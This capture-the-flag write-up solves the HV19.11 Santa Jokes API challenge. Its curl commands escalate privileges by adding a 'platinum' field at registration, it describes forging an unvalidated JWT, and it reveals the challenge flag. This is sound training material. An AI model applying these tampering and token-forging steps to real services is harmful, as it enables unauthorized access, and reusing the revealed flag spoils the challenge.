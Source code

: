 # HV19.11 - Frolicsome Santa Jokes API

| Author | Level | Categories |
|---|---|---|
| inik | medium | fun |

## Given
The elves created an API where you get random jokes about santa.

Go and try it here: http://whale.hacking-lab.com:10101

## Approach

For information gathering, I played through the scenario as described.

![API specification](HV19.11_frolicsom_santa_jokes_api.png)

Logging in with a user resulted in a token implementing a JWT: 

```bash
$ curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username":"testuser", "password": "passwordpassword"}'

{"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoidGVzdHVzZXIiLCJwbGF0aW51bSI6ZmFsc2V9LCJleHAiOjE1Nzc0Mzc4ODkuMzUzMDAwMDAwfQ.5msTsQB_qqB-samcp4CP4tS2DNWvdgILjpiBm-L_kqM"}
```

JWTs can be decoded: 

```json
{
    "user": {
        "username": "testuser",
        "platinum": false
    },
    "exp": 1577437889.353
}
```

So let's try to bring that `platinum` property to a `true` value.


### One

One variant that was successful was to simply add the property to the registration request of a new user:

```bash
# curl -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/register --data '{"username":"nothertestuser", "password": "passwordpassword", "platinum": true}'
HTTP/1.1 201 Created
Content-Type: application/json
Content-Length: 37
Server: Jetty(9.4.18.v20190429)

{"message":"User created","code":201}
```

Logging in with that user:
```bash
# curl -i -s -X POST -H 'Content-Type: application/json' http://whale.hacking-lab.com:10101/fsja/login --data '{"username": "nothertestuser", "password":"passwordpassword"}'
HTTP/1.1 201 Created
Content-Type: application/json
Content-Length: 224
Server: Jetty(9.4.18.v20190429)

{"message":"Token generated","code":201,"token":"eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoibm90aGVydGVzdHVzZXIiLCJwbGF0aW51bSI6dHJ1ZX0sImV4cCI6MTU3NjA0Nzg5NC40NzcwMDAwMDB9.3_9QFSTdjMaIOG0DJL7jBKR1-jbbgfKKDIvA2T-2bNo"}
```

And requesting a "random" joke:
```bash
# curl -i -X GET "http://whale.hacking-lab.com:10101/fsja/random?token=eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjp7InVzZXJuYW1lIjoibm90aGVydGVzdHVzZXIiLCJwbGF0aW51bSI6dHJ1ZX0sImV4cCI6MTU3NjA0Nzg5NC40NzcwMDAwMDB9.3_9QFSTdjMaIOG0DJL7jBKR1-jbbgfKKDIvA2T-2bNo"
HTTP/1.1 201 Created
Content-Type: application/json
Content-Length: 300
Server: Jetty(9.4.18.v20190429)

{"joke":"Congratulation! Sometimes bugs are rather stupid. But that's how it happens, sometimes. Doing all the crypto stuff right and forgetting the trivial stuff like input validation, Hohoho! Here's your flag: HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}","author":"Santa","platinum":true}
```

### Two

It turns out, the API also did not validate the token before using it. So, solving this challenge could have been as simple as decoding the JWT, setting the platinum property to `true` and re-encoding the JWT (with a wrong signature).

## Flag
`HV19{th3_cha1n_1s_0nly_as_str0ng_as_th3_w3ak3st_l1nk}`
